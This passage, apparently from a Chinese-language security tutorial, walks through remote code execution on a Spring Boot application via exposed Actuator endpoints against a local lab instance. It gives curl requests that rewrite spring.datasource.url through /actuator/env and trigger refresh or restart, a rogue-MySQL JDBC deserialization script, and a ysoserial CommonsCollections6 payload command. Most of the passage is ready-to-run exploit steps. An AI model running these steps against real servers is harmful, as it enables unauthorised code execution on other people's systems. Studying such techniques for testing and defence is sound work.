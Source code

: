 ```plain
curl -H "Content-Type:application/json" -X POST  --data '{"name":"spring.datasource.url","value":"jdbc url' http://localhost:9097/actuator/env
```

**(2)刷新配置**

```plain
curl -H "Content-Type:application/json" -X POST  http://localhost:9097/actuator/refresh
```

这里也可以通过`restart`来触发。

```plain
curl -H "content-Type:  application/json" -X POST http://localhost:9097/actuator/restart
```

**(3)访问数据库操作触发**

先监听3307，这里注意使用Py2，利用脚本不支持Py3，会出错。

```plain
python springboot-jdbc-deserialization-rce.py
```

接下来访问即可。

`curl http://localhost:9097/product/list`

关于这个，其实在真实环境中，都不用自己去触发，自带的其他操作都会导致进行数据库连接。

**(4)恢复Spring.datasource.url**

当我们获得RCE之后，前面记录的本来的jdbc url就可以还原回去了，操作如下。

```plain
curl -H "Content-Type:application/json" -X POST  --data '{"name":"spring.datasource.url","value":"jdbc:mysql://127.0.0.1:3306/test' http://localhost:9097/actuator/env
```

最终，在测试过程，我发现，有请求访问伪造的mysql服务，但是Spring-boot进程却在序列化的过程中报错退出了，导致命令没有执行成功。

[![](assets/1703152930-3134c3ff7dc5134cef3e32f71de3665b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210620112049-829d34ee-d176-1.png)

这个是jdk版本导致的，改用cc6来解决

```plain
java -jar ysoserial-0.0.8-SNAPSHOT-all.jar  CommonsCollections6 ' open -a Calculator.app' > payload.ser
```
